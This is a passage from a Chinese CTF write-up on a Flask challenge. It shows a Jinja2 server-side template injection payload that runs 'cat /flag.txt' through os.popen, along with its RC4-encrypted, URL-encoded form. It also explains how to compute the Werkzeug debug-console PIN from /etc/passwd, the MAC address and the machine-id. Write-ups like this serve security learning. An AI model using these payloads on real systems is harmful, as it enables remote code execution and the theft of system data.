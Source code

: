 

**不过这里poc的生成还可以使用cyberchef工具，并不一定要写脚本**

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu11.jpg)



payload:

```
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat /flag.txt').read()")}}

////我们需要的是经RC4加密后再经过url编码过的（因为RC4加密后有不可见字符，所有进行url编码）
.%14bh%C3%A484mg%C2%9C%C3%8B%00%C2%81%C2%8D%C2%B8%C2%97%0B%C2%91U%27%C2%B2m%C3%9F%3C5%C2%AE%2B%C2%9CP%C3%8F%3E%C3%A6%3E%C2%98H%C3%857%C3%8E%60%C2%AD%40%C2%8F%C3%94%C3%9F%231%C2%82%13%C2%AB%C2%B4RS%5D%C3%90mS%C2%A88D%C3%8B%C3%BE%01V%C3%B7%C2%95%15%C2%A9v%05%03%0A%C3%92%08%C3%A4%06%C3%A2i%C2%9AdM78V%C2%B0%C3%A9%1C%C2%85%C2%8D%C3%A1%C3%82%C3%B8%C2%80%C3%AAgu%C3%90%C3%85%C2%8D%C2%88%C3%A6wV%C3%A8%C2%96A%C2%BB%1D%1C%5D%C3%9A%C2%96%0D%7Ek%5Cj%C3%8C%C3%AD%C2%95j8%C2%AF%22%17U%C2%9Ef%C2%9C%08%C2%85%C3%96%C3%AB3%C3%AA%C3%A4%1C%27%C3%B8%C3%9A.%C2%87%24%04%11p%C3%87%C2%92

```



解法二：

前面的做法同解法一，从http://url/secret?secret=11111 页面开始

**这个页面是flask应用开启了调试模式后运行错误的表现，在较旧版本的flask中可以直接在这个页面中打开python控制台运行代码，而在较新的版本中的flask中要打开python控制台需要输入一个pin码**，如下：

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu12.jpg)



**pin码会在服务器端运行flask应用时输出，其格式为“ xxx-xxx-xxx”，其中x为任意一个数字，表示pin有10亿种组合。作为攻击者，我们目前是不知道pin编码的，除非你有耐性进行爆破，实际上爆破也是可行的，因为在固定的机器上，pin码是固定的**



**计算PIN码流程**      <a href='https://xz.aliyun.com/t/2553' target="_blank">Flask debug pin安全问题</a>

```
需要六个数据来计算PIN码
1.username，读/etc/passwd,本题为glzjin

2.module name 一般固定为flask.app

3.getattr(app, "\_\_name\_\_", app.\_\_class\_\_.\_\_name\_\_)的结果。就是Flask

4.flask库下app.py的绝对路径，不是当前运行的app.py的路径，在debug模式下报错就能直接看见，该题为/usr/local/lib/python2.7/site-packages/flask/app.pyc

5.当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取，eth0为当前使用的网卡，如果有多个网卡数字可能会变，
'class' is not allowed. Secret is 02:42:ac:10:a6:56  
这里为02:42:ac:10:a6:56 ，
>>> print(0x0242ac10a656)
2485377869398
转十进制为 2485377869398

6.机器的id
对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件，windows的id获取跟linux也不同。对于docker机则读取/proc/self/cgroup，序列号为1那行
1:name=systemd:/docker/73e631540828d92c2d71a634670c201fa81ff3ea9790ce454d630df7d27e994e
```
